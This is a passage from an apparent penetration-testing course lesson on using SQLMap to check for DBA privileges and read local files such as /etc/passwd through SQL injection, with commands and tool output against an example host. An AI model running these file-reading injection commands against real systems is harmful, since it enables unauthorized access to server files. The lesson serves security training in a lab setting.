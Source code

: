 As we can see, if we test that on one of the previous exercises, we get `current user is DBA: False`, meaning that we do not have DBA access. If we tried to read a file using SQLMap, we would get something like:

```shell-session
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

To test OS exploitation, let's try an exercise in which we do have DBA privileges, as seen in the questions at the end of this section:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

We see that this time we get `current user is DBA: True`, meaning that we may have the privilege to read local files.

---

## Reading Local Files

Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the `--file-read` option:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
```